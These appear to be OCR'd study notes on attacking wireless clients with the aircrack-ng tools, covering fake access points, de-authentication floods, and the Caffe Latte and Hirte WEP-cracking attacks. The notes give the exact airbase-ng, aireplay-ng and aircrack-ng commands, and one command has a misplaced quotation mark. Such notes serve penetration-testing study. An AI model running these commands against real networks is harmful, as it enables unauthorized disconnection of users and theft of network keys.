 ## Orchestrating a mis-association attack
* `airdumo-ng mon0` to check clients
* Clients not connected to an AP will be shown probing in most
cases
* Fire up Wireshark on mon0 and filter for Probe Request
packets from the specific client MAC
 * `wlan.fc.type_subtype == 0x04 && wlan.sa == <client MAC>`
* `airbase-ng --essid "<ESSID> -c 3 mon0"` to launch the
fake AP
* Client will connect to the fake AP
* To make a fake AP while existing one is running:
 * `airbase-ng --essid "<ESSID>" -c 3 mon0`
 * Client is still connected to the legitimate AP
 * `aireplay-ng --deauth 0 -a <AP BSSID> mon0` to de-auth the
 client
 * If our AP's signal is stronger, the client connects to the
 fake AP

## Caffe Latte attack
* Clients continuously probe for SSIDs they have previously
connected to
* WEP keys are stored by the client

## Conducting the Caffe Latte attack
* When there's an unassociated client
* `airbase-ng -c 3 -a <AP BSSID> -e "<SSID>" -L -W 1 mon0`
* start airodump-ng to collect packets from this AP
* start aircrack-ng to crack
 * `aircrack-ng <path to cap file>`
* The attack works by bit flipping and replaying ARP packets
* The replayed ARPs generate more ARPs to be sent
* These ARPs are encrypted by the WEP key stored on the client

## De-Authentication and Dis-Association attacks
* Earlier we used de-auth attacks in the AP context
* This time it will be in the client context

## De-Authenticating the client
* Run airodump-ng to find the client
* `aireplay-ng --deauth 1 -c <client MAC> -a <AP BSSID> mon0`
* Client is disconnected and tried to reconnect
* This works on both WEP and WPA/WPA2

## Dis-Association attack on the client
* You can also use de-auth packets to achieve the same thing

## Hirte attack
* It's like the Caffe Latte attack, but uses fragmentation
techniques to allow almost any packet to be used
* `airbase-ng -c 3 -a <AP BSSID> -e "<SSID>" -W 1 -N mon0`
* `airodump-ng -c 3 --bssid <AP BSSID> --write <output> mon0`
in a separate terminal
* Once a roaming client connects to the honeypot AP,
the Hirte attack is launched
* Use aircrack-ng to crack the WEP key
